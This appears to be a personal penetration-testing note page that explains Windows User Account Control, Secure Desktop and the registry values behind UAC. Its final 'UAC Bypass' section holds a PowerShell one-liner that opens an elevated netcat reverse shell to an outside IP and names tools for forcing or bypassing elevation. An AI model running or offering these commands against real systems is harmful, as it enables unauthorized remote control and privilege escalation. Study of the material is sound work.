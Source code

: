 public:: true
alias:: UAC

- The *[User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/)* (UAC) is a Windows security feature that protects the operating system by **running most applications with standard user privileges**, even if the user launching them is an Administrator.
- An administrative user obtains [two access tokens after a successful logon](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#sign-in-process)
	- One is a standard user token *(AKA filtered admin token)*, which is used to perform all non-privileged operations.
	- The other one is a regular administrator token and is used when the user wants to perform a privileged operation.
- When changes to the system require administrator-level permission, UAC notifies the user *(part of the local Administrators group)*, giving the opportunity to approve or deny the change via the well-known *consent prompt*.
  #+BEGIN_CENTER
  ![image.png](../assets/image_1705940657849_0.png){:height 292, :width 461} 
  #+END_CENTER
	- If the user approves the change, the action is performed with the highest available privilege.
	- If the user doesn't approve the change, the action isn't performed and the application that requested the change is prevented from running.
- When changes to the system require administrator-level permission, UAC notifies the standard user, giving the opportunity to provide credential for a local Administrator via the *credential prompt*.
  #+BEGIN_CENTER
  ![image.png](../assets/image_1705941606160_0.png){:height 363, :width 315} 
  #+END_CENTER
- Security minded applications might be programmed to allow a combination of administrator and standard user operations. In this case the shield icon is shown ![image.png](../assets/image_1705941862012_0.png){:height 37, :width 22}
	- For example, from the **Date and Time** standard users can view the clock and change the time zone, but a full administrator access token is required to change the local system time.
	  #+BEGIN_CENTER
	  ![image.png](../assets/image_1705941910846_0.png){:height 274, :width 337} 
	  #+END_CENTER
- **Secure Desktop**
	- Available since Windows 10
	- The secure desktop’s primary difference from the user desktop is that only **trusted processes running as SYSTEM are allowed** to run here (that is, nothing is running at the user’s privilege level). It helps protect against **input and output spoofing** by presenting the credentials dialog box in a **protected section of memory** that is accessible only by **trusted system processes**.
	- Otherwise an attacker can trick
		- users to disclose their passwords
		- Spoof the mouse cursor by hiding the real cursor and replacing it with an offset so the cursor is actually pointing to the **Allow** button
- **UAC Architecture**
	- A detailed explanation of how UAC works can be found [here](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works#uac-architecture).
	  #+BEGIN_CENTER
	  ![image.png](../assets/image_1705959070635_0.png)
	  #+END_CENTER
- **Check if UAC is enabled**
	- To confirm if UAC is enabled do:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      EnableLUA    REG_DWORD    0x1
	  ```
		- `1` then UAC is **activated**
		- `0` then UAC is **inactive**
		- If the key doesn't exist, then UAC is **inactive**
	- Then, check which level is configured:
	  ```cmd
	  REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
	  
	  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
	      ConsentPromptBehaviorAdmin    REG_DWORD    0x5
	  ```
		- If `0` then, UAC won't prompt (like disabled)
		- If `1` the admin is asked for username and password to execute the binary with high rights (on Secure Desktop)
		- If `2` *(Always notify me)* UAC will always ask for confirmation to the administrator when he tries to execute something with high privileges (on Secure Desktop)
		- If `3` like `1` but not necessary on Secure Desktop
		- If `4` like `2` but not necessary on Secure Desktop
		- if `5` *(default)* it will ask the administrator to confirm to run non Windows binaries with high privileges
	- Then, you have to take a look at the value of `LocalAccountTokenFilterPolicy`
		- If the value is `0`, only the RID 500 user *(built-in Administrator)* is able to perform admin tasks without UAC
		- If the value is `1`, all accounts inside "Administrators" group can perform admin tasks without UAC
	- Summary
		- If `EnableLUA=0` or doesn't exist, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=1`, no UAC for anyone
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=0`, no UAC for RID 500 *(Built-in Administrator)*
		- If `EnableLua=1` and `LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=1`, UAC for everyone
- **UAC Bypass**
	- #+BEGIN_CAUTION
	  Note that if you have graphical access to the victim, UAC bypass is straight forward as you can simply click on "Yes" when the UAS prompt appears
	  #+END_CAUTION
	- If UAC is already disabled (`ConsentPromptBehaviorAdmin` is `0`) you can execute a reverse shell with admin privileges (high integrity level) using something like:
	  ```powershell
	  Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
	  ```
	- Noisy brute-force UAC bypass
		- If you don't care about being noisy you could always run something like **[ForceAdmin](https://github.com/Chainski/ForceAdmin)** that asks to elevate permissions until the user does accepts it.
	- Abuse Kerberos Tickets with [KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)